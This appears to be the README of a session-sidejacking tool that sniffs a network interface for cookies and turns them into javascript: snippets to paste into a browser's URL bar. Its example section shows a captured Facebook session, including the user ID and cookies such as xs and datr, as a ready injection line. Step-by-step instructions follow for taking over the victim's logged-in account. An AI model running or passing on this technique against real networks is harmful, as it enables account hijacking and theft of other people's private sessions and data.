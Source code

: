 # Cookie Javascript Injection Sidejacking

This software sniffs any interface for cookies, and generates javascript code that can be injected into any browser, by pasting it into the URL bar.

# Usage

To run the cookieJsInjection open a shell (e.g., bash) and execute the following command (cookieJsInjection requires scapy to run - http://www.secdev.org/projects/scapy/):

`./cookieJsInjection.py IFACE`

Where `IFACE` represents the network interface you wish to sniff on (e.g. eth0, wlan0, etc). 

If you supply the flag `-f`, it will only output facebook cookies, keeping track of the profiles captured in the session, and eliminating duplicate entries:

`./cookieJsInjection.py IFACE -f`

# Example of Facebook sidejacking

1 - Run cookieJsInjection and wait for cookies to appear

`glow:py-cookieJsInjection hiperion$ sudo python cookieJsInjection.py en1 -f
Password:
WARNING: No route found for IPv6 destination :: (no default route?)
- Found cookie for facebook user 798929644:
javascript:void(document.cookie="c_user=798929644");void(document.cookie="wd=1280x616");void(document.cookie="presence=DJ293759043BchADhA_2256.channel_22BsubA_5b1_2c1L798929644A5BF293757419186WMblcMsndPBbloMbvtMctMsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA42V293758371Z416BlcA0AQ");void(document.cookie="cur_max_lag=20");void(document.cookie="act=1293757438495%2F1");void(document.cookie="L=20");void(document.cookie="datr=0fMcTTMFZZVhFiOJZvvO1pyO");void(document.cookie="locale=en_US");void(document.cookie="lu=TA3UCsI0Y6ezY6wydClUpeDw");void(document.cookie="sct=1293787415");void(document.cookie="W=1293757115");void(document.cookie="sid=3");void(document.cookie="xs=1e4d54055dbe34976a93d3a1fe574a19");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%23%2F");void(document.cookie="made_write_conn=1293751415");`

2 - Copy the javascript code (begining with `javascript:`).

3 - Open the browser in facebook.com (make sure you are logged out of any accounts).

4 - Paste the javascript code into the URL bar (press enter)

5 - Go to facebook.com
                                       
# Background
More information on sidejacking - http://en.wikipedia.org/wiki/Session_hijacking